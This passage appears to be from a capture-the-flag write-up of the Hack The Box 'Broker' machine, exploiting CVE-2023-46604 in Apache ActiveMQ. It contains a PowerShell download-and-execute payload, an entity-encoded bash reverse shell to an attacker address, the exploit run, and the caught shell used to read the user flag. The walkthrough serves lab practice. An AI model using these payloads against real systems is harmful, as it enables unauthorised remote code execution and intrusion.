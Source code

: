 > **Payload for windows**
> 
> ```xml
> <value>cmd</value>
> <value>/c</value>
> <value>powershell Invoke-WebRequest "http://0.0.0.0:8001/test.exe" -OutFile "test.exe"; Start-Process "./test.exe"</value>
> ```
{: .prompt-tip }

The redirectors needs to be entity encoded

> [**Cyberchef Recipe**]([https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity(false,'Named%20entities')]([https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity(false,'Hex%20entities')](https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity(false,'Hex%20entities')))

```bash
bash -i &#x3e;&#x26; &#x2f;dev&#x2f;tcp&#x2f;10&#x2e;10&#x2e;16&#x2e;30&#x2f;1111 0&#x3e;&#x26;1
```

Host the xml payload

> It must be port `80` to work
{: .prompt-tip }

```bash
python -m http.server 80
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Broker/exploit/CVE-2023-46604]
└─$ python exploit.py -i broker.htb -u http://10.10.16.30/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: broker.htb:61616
[*] XML URL: http://10.10.16.30/poc.xml

[*] Sending packet: 0000006d1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001a687474703a2f2f31302e31302e31362e33302f706f632e786d6c
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Broker/exploit/CVE-2023-46604]
└─$ nc -lvnp 1111
listening on [any] 1111 ...

connect to [10.10.16.30] from (UNKNOWN) [10.129.41.115] 38590
bash: cannot set terminal process group (874): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$
activemq@broker:/opt/apache-activemq-5.15.15/bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Broker/exploit/CVE-2023-46604]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

activemq@broker:/opt/apache-activemq-5.15.15/bin$ export TERM=xterm
activemq@broker:/opt/apache-activemq-5.15.15/bin$ id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat ~/user.txt
```